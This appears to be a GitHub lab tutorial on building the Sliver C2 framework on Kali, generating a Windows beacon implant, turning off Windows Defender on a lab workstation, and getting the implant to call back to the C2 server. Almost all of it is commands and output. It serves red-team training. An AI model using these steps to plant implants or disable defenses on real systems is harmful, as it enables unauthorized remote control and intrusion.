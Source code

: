 # Part 1 - Install of Sliver C2 on Kali VM, generate Beacon code, get call back from Windows target

## **Intro**
In this part, I will be using VMs from my **Active Directory Lab** available in my repo ["active-directoy"](https://github.com/jjkirn/active-directory) for this demo.

Here are some reference info from that lab:
- DC1: IP address = 192.168.175.155
- WS0: IP address = 192.168.175.123
- Kali: IP address = 192.168.175.130
- Management: IP address = 192.168.175.??? 

Using our Kali VM, will git clone the sliver repo, and compile it using go.

Using sliver, we will create a beacon implant (an .exe) and tranfer it to our lab target VM - WS0.

We discover that Windows Defender blocks us from both downloading the implant and running it.

We rely on a method from a John Hammond youtube video on how to disable all of Windows Defender to get our implant code to the target (A unrealistic scenario, but this is just a demo of sliver).

After making the Windows Defender disable changes to WS0, we now download the implant code and run it.

Back on Kali VM, we notice that we get a call back from the implant code showing our implant worked !

---
## **NOTE:**
[A Beginner's Guide to Sliver](https://notateamserver.xyz/sliver-101/) is available.

The guide explains the fundamentals of the framework and gives example commands.

It is highly recommeded that you read this intro before you go any further as I will not be explaining all of the features available.

I will only be showing some of the basics to get you up-and-running and key feature such as "Armory".

---
## **Getting Started**
Lets start with cloning the [sliver repo](https://github.com/BishopFox/sliver.git).

On Kali VM, open terminal window and do a git install of Sliver:
```
sudo su -
cd /opt
git clone https://github.com/BishopFox/sliver.git
exit
```

---
A requirement for installing Sliver from source is the go compiler, lets check if it is installed:
```
go version
```

If it is already installed, skip over the "go" install.

To install the "go" compiler:
```
sudo apt update && sudo apt full-upgrade -y
sudo apt install golang -y
go version
```

---
Time to install sliver c2.

Lets install sliver from source.

Make sure we are in the /opt/sliver directory:
```
sudo su -
# cd /opt/sliver
```

Run make to compile it and install:
```
# make
```
This will create "sliver-server" and "sliver-client" binaries.

Exit root:
```
exit
```

Lets get started by running the sliver server:
```
$ /opt/sliver/sliver-server
```

---
Lets start using Sliver by generating a beacon implant for a Windows x64 machine:
```
[server] sliver > generate  beacon --http 192.168.175.130/last/chance
...
[*] Implant saved to /home/jim/Desktop/GREAT_EXAMINATION.exe
```

We need to transfer the beacon "implant code" that was generated (GREAT_EXAMINATION.exe) to our Windows target (ws01).

The one of the easiest ways to transfer it to our Windows target is via http.

On Kali, cd to location of gernerated "implant code":
```
$ cd /home/jim/Desktop
```

Launch python web server at 8000:
```
python3 -m http.server
```

---
Switch to our Windows Target [WS01] and try to download the "implant code" from Kali:
```
PS C:> Invoke-WebRequest -Uri “http://192.168.175.130:8000/GREAT_EXAMINATION.exe” -OutFile "C:\Users\alice\Downloads\GREAT_EXAMINATION.exe"
```

It fails because Windows Defender intercepts it!

We need to disable all of Windows Defender including the realtime part.

You can follow the steps in a video from John Hammond - [PERMANENTLY TURN OFF Windows Defender on Windows 11](https://www.youtube.com/watch?v=81l__vvGnjA) to turn off all of "Windows Defender".

Complete all the steps from the video and reboot the Windows Workstation target [ws01].

You now should be able to download and run the implant on WS01:
```
PS C:> Invoke-WebRequest -Uri “http://192.168.175.130:8000/GREAT_EXAMINATION.exe” -OutFile "C:\Users\alice\Downloads\GREAT_EXAMINATION.exe"
```

Execute the implant - it should generate a callback to the the Kali sliver-server:
```			
PS C:> \GREAT_EXAMINATION.exe
```

---
Back on Kali VM, in the "sliver-server" terminal window, you should see the callback:
```
[server] sliver > http

[*] Starting HTTP :80 listener ...
[*] Successfully started job #1

[server] sliver > beacons

 ID         Name                Transport   Hostname       Username    Operating System   Last Check-In   Next Check-In 
========== =================== =========== ============== =========== ================== =============== ===============
 a4ace178   GREAT_EXAMINATION   http(s)     DESKTOP-WS01   XYZ\alice   windows/amd64      13s             53s           
```

Great, this was one way to get sliver working, in part 2 I will show another way and an alternate way to bypass AV.

---
End of Part 1.